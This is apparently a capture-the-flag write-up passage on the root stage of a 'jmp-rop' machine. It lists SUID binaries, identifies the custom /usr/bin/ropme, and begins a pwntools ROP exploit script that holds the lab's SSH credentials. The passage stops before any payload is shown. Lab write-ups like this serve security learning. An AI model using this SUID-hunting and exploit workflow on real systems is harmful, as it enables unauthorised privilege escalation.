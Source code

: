 
### Root write-up:

For the privilege escalation the name of the machine helps us to guide us by where it goes, so we list the files that have sticky bit.

```
shon@jmp-rop:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mtr
/usr/bin/lppasswd
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudoedit
/usr/bin/ropme ----------------------
/usr/bin/X
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/sbin/pppd
/usr/sbin/uuidd
/bin/su
/bin/mount
/bin/fusermount
/bin/ping6
/bin/umount
/bin/ping
```

The goal is clear! We download the file and we try to exploit it. To exploit this rop has been used a exploit from [Julianjm](https://twitter.com/julianjm512).

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 192.168.1.104 --user shon --pass elheraldodeshon /usr/bin/ropme
from pwn import *

exe = context.binary = ELF('./ropme')

host = args.HOST or '192.168.105.156'
port = int(args.PORT or 22)
user = args.USER or 'shon'
password = args.PASSWORD or 'elheraldodeshon'
remote_path = '/usr/bin/ropme'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug(["./ropme"] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```